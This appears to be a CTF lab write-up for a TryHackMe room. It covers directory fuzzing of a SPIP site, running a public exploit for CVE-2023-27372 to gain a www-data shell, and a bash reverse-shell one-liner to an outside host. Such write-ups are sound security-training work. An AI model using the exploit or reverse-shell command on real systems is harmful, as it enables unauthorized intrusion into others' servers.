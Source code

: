 ```
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.101.39/spip/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 222ms]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 220ms]
LICENSE                 [Status: 200, Size: 35147, Words: 5836, Lines: 675, Duration: 290ms]
config                  [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 419ms]
ecrire                  [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 300ms]
local                   [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 288ms]
prive                   [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 227ms]
squelettes-dist         [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 311ms]
tmp                     [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 206ms]
vendor                  [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 263ms]
:: Progress: [20469/20469] :: Job [1/1] :: 149 req/sec :: Duration: [0:02:30] :: Errors: 0 ::

```

On the site, everywhere, images of spip can be seen. I used an extension, `Wappalyzer`. This awesome tool tells what technologies are used within the websites.

With the help of Wappalyzer, I learned the version of spip used: `4.2.0`.

Upon Googling spip 4.2.0, I found a CVE related to this: `CVE:2023-27372`. This is a RCE for spip 4.2.0

I found a Github repo for this CVE. I cloned it to my machine and installed the requirements using `pip`.
```
──(kali㉿kali)-[~/Desktop/THM/Publisher/CVE-2023-27372]
└─$ ls
CVE-2023-27372.py  README.md  requirements.txt  spip_oubli_param_rce.rb
```

```
┌──(kali㉿kali)-[~/Desktop/THM/Publisher/CVE-2023-27372]
└─$ python3 CVE-2023-27372.py -u http://10.10.101.39/spip/ -o result.txt                                               
[+] The URL http://10.10.101.39/spip/ is vulnerable
[!] Shell is ready, please type your commands UwU
# whoami

www-data

#
```
This shell that I got was slow. A better thing to do was to get a reverse shell connection.
I used the command  `bash -c "bash -i >& /dev/tcp/10.0.0.1/4242 0>&1"`, replacing my machines IP and changing the port as well.
